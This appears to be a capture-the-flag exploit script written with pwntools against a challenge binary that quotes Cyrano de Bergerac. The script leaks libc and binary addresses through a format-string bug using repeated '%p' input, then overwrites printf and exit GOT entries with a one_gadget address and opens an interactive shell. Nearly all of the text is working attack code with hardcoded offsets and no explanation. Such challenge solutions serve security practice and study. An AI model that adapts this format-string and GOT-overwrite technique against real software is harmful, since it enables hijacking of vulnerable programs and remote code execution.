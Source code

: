 ```python
    io.sendline(b"L'amour grandit berce dans mon ame inquiete... Que ce... cruel marmot prit pour... barcelonnette !")
    io.sendline(b"Aussi l'ai-je tente, mais... tentative nulle. Ce... nouveau-ne, Madame, est un petit... Hercule.")
    io.sendline(b"De sorte qu'il... strangula comme rien... Les deux serpents... Orgueil et... Doute.")
    
    # Leaking binary / libc / stack address

    io.recvuntil(b"sente donc la situation ?\n[Vous] : ")
    io.sendline(b"%p" * 48)

    leak = io.recvline().decode("utf-8")
    
    leak_libc = int(leak[-57:-43], 16) - 4118720
    leak_binary = int(leak[-29:-15], 16) - 7884
    help_christian = 0x00000970
    
    pwn.log.info(f"Binary mapped @ {hex(leak_binary)}")
    pwn.log.info(f"Libc mapped @ {hex(leak_libc)}")
    
    # Shelling a shell

    exe.address = leak_binary
    exit_got = exe.symbols['got.exit']
    printf_got = exe.symbols['got.printf']

    buffer_offset = 32
    one_gadget = 0x10a2fc
    pwn.log.info(f"One gadget @ {hex(leak_libc + one_gadget)}")
    
    payload = pwn.fmtstr_payload(buffer_offset, {printf_got : leak_libc + one_gadget, exit_got : leak_binary + help_christian})
    io.sendline(payload)

    io.interactive()

if __name__ == "__main__":
    exp()
```